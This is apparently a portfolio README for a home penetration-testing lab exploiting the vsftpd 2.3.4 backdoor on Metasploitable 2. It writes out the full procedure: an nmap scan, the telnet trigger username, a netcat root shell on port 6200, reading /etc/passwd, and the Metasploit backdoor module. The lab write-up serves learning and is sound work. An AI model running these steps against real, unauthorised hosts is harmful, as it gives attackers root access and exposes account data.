 
# Manual and Metasploit Exploitation of vsftpd 2.3.4 on Metasploitable 2

## 📌 Overview

This project covers two methods of exploiting the vsftpd 2.3.4 backdoor vulnerability (CVE-2011-2523) on Metasploitable 2. This specific vulnerability is due to a backdoor introduced by a malicious actor in this particular version of vsftpd.

- **Manual exploitation** using basic tools like `telnet` and `netcat`
- **Automated exploitation** using `msfconsole` (Metasploit Framework)

The goal was to gain a deeper understanding of the vulnerability by exploring both methods, ultimately achieving root shell access.

---

## 🛠 Lab Setup

| Component      | Details                                  |
|----------------|-------------------------------------------|
| Attacker VM    | Kali Linux (VirtualBox)                  |
| Target VM      | Metasploitable 2                         |
| Network Mode   | Host-Only Adapter                        |
| Tools Used     | `nmap`, `telnet`, `netcat`, `msfconsole`, `ping` |

---

## 🔍 Exploitation Method 1: Manual (Telnet + Netcat)

### 1. Identify Metasploitable IP Address

```bash
ifconfig
```

![Ping success](meta-ip.png)

---

### 2. Ping from Kali to Confirm Connection

```bash
ping [target IP]
```

![Ping success](ping-kali.png)

---

### 3. Scan Open Ports with Nmap

```bash
nmap -sS -sV [target IP]
```

Result: Port **21/tcp** running `vsftpd 2.3.4`

📸 ![Ping success](nmap-scan.png)

---

### 4. Trigger the Backdoor with Telnet

```bash
telnet [target IP] 21
```

Login:
```
USER test:)
PASS test
```

📸 ![Ping success](closed-by-foreign-host.png)

---

### 5. Connect to the Backdoor with Netcat

```bash
nc [target IP] 6200
```

Run post-exploit commands:
```bash
whoami
uname -a
cat /etc/passwd
```

📸 ![Ping success](root-access-change.png)

---

## ⚡ Exploitation Method 2: Using Metasploit

### 1. Start Metasploit Console

```bash
msfconsole
```

---

### 2. Search for the vsftpd Exploit

```bash
search vsftpd
```

Use the backdoor module:
```bash
use exploit/unix/ftp/vsftpd_234_backdoor
```

📸 *Screenshot: Exploit module selected*

---

### 3. Set Target Information

```bash
set RHOST [target IP]
```

📸 *Screenshot: RHOST configured*

---

### 4. Run the Exploit

```bash
run
```

Successful output:
```
Found shell.
Command shell session 1 opened...
```

📸 *Screenshot: Metasploit shell session*

---

### 5. Verify Access

```bash
whoami
uname -a
cat /etc/passwd
```

📸 *Screenshot: Root access via Metasploit*

---

## 🧠 Lessons Learned

- Manual exploitation teaches protocol-level logic and networking fundamentals
- Metasploit drastically simplifies the process but understanding the logic behind it is crucial
- Proper network configuration (e.g., NAT vs Host-Only) is critical
- Some backdoors only work **once per boot**, which requires timing or resets

---

## 📸 Screenshot Suggestions

- Metasploitable IP shown via ifconfig
- Successful ping from Kali
- Nmap scan showing port 21
- Telnet trigger session
- Netcat shell session
- Metasploit shell session
- Commands run post-exploit (whoami, etc.)

---

## ✅ Completion Checklist

| Task                          | Status |
|-------------------------------|--------|
| VM Setup                      | ✅     |
| Nmap Scanning                 | ✅     |
| Manual Exploit Triggered      | ✅     |
| Remote Root Shell (manual)    | ✅     |
| Metasploit Exploit Used       | ✅     |
| Root Access Verified          | ✅     |
| Screenshots Captured          | ✅     |
| Writeup Created               | ✅     |

---

## 🔚 Final Thoughts

Both approaches led to full system compromise. The manual method built foundational skills while Metasploit demonstrated how automation accelerates real-world penetration testing. This was a successful offensive security lab that will be used as a portfolio project.
